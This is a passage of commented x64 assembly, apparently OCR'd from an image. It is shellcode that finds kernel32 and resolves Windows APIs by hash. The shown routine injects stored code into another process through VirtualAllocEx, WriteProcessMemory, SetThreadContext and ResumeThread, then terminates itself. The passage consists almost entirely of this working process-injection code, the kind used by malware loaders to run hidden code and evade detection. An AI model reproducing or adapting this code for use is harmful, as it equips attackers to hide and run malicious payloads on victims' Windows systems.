         mov rdx, 0                          ; lpAddress = NULL
        mov rcx, qword [rsi]                ; hProcess = PROCESS_INFORMATION.hProcess = RSI
        call [r13+0x20]                     ; Call VirtualAllocEx
        add rsp, 0x28
 
        ; Setup CONTEXT object for thread change
        mov [r15+0xf8], rax                 ; CONTEXT object offset 0xB8 = RIP
        
        ; Begin WriteProcessMemory
        xor rcx, rcx                        ; prep the stack for x64 fastcall
        mov cl, 0x28                        ; 0x20 shadow space + 1 argument
        call create_empty_structure
        
        mov dword [rsp+0x20], 0             ; lpNumberOfBytesWritten = NULL
        mov r9, 0x110                       ; nSize = 0x110 = 272 bytes 
        jmp injected_code                   ; jump to the stored code 
        injected_code_return:               ; lpBuffer = return address pushed to the stack
        pop r8                              ; pop the return address into R8
        mov rdx, [r15+0xf8]                 ; lpBaseAddress
        mov ecx, dword [rsi]                ; hProcess = PROCESS_INFORMATION.hProcess = RSI
        call [r13+0x28]                     ; Call WriteProcessMemory
        add rsp, 0x28
 
        ; Begin SetThreadContext
        xor rcx, rcx                        ; prep the stack for x64 fastcall
        mov cl, 0x20                        ; 0x20 shadow space
        call create_empty_structure
        
        mov rdx, r15                        ; lpContext = CONTEXT structure
        mov rcx, qword [rsi+0x08]           ; hThread = PROCESS_INFORMATION.hThread =
                                            ; RSI+0x04
        call [r13+0x30]                     ; Call SetThreadContext
        add rsp, 0x20                       ; Clean up the stack
 
        ; Begin ResumeThread
        xor rcx, rcx                        ; prep the stack for x64 fastcall
        mov cl, 0x20                        ; 0x20 shadow space
        call create_empty_structure
        
        mov rcx, qword [rsi+0x08]           ; hThread = PROCESS_INFORMATION.hThread =
                                            ; RSI+0x04
        call [r13+0x38]                     ; Call ResumeThread
        add rsp, 0x20                       ; Clean up the stack
        
        ; Begin GetCurrentProcess
        xor rcx, rcx                        ; prep the stack for x64 fastcall
        mov cl, 0x20                        ; 0x20 shadow space
        call create_empty_structure
        
        call [r13+0x40]                     ; Call GetCurrentProcess
        add rsp, 0x20                       ; Clean up the stack
 
        ; Begin TerminateProcess
        mov [r13+0x50], rax                 ; Save the process handle
        xor rcx, rcx                        ; prep the stack for x64 fastcall
        mov cl, 0x20                        ; 0x20 shadow space
        call create_empty_structure
        
        xor rdx, rdx                        ; Exit Code 0
        mov rcx, [r13+0x50]                 ; pHandle, RAX = Current process handle
        call [r13+0x10]                     ; Call TerminateProcess
        
    main:
        sub rsp, 0x110                      ; Allocate space on stack for function
                                            ; addresses
        mov rbp, rsp                        ; Set ebp as frame ptr for relative offset on
                                            ; stack
        call find_kernel32                  ; Find base address of kernel32.dll
        jmp  win32_library_hashes